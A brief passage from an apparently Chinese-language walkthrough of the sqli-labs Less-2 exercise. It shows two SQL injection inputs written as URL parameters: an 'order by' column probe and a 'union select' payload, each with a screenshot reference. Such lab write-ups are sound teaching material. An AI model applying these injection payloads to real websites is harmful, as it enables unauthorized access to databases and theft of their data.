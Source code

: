 

+ 然后基本注入方式和第一关一样，注入语句

~~~ shell
?id=1 order by 3
~~~

![Less-2_12](./img/Less-2_12.PNG)



+ 注入

~~~ shell
?id=-1 union select 1,2,3
~~~

![Less-2_5](./img/Less-2_5.PNG)

